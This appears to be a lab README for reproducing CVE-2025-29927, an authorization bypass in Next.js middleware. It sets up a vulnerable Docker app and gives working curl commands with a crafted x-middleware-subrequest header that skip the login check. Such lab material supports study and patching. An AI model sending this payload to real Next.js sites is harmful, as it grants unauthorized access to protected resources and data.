


# Next.js Middleware Authorization Bypass (CVE-2025-29927)

[中文版本(Chinese version)](README.zh-cn.md)

Next.js is a popular React-based web application framework providing features such as server-side rendering, static site generation, and an integrated routing system. When configured to use middleware for authentication and authorization purposes, versions prior to 14.2.25 and 15.2.3 are vulnerable to an authorization bypass.

The vulnerability allows attackers to bypass middleware-based security controls by manipulating the `x-middleware-subrequest` header, potentially gaining unauthorized access to protected resources and sensitive data.

References:

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

## Environment Setup

Execute the following command to start a vulnerable application based on Next.js 15.2.2:

```
docker compose up -d
```

After the application starts, visit `http://your-ip:3000` you will be redirected to the login page. Input the default credentials `admin:password` to login and access the dashboard.

## Vulnerability Reproduction

If you try to access the dashboard directly without legal credentials, you will be redirected to the login page:

```
curl -i http://your-ip:3000
```



To exploit the vulnerability, you can add the `x-middleware-subrequest` header with the value `middleware:middleware:middleware:middleware:middleware` in the request. The Next.js middleware will incorrectly process this header and bypass the authentication checks:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```



As you can see, the dashboard is accessible without any authentication.

> You can also try the header `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` if the previous payload doesn't work.
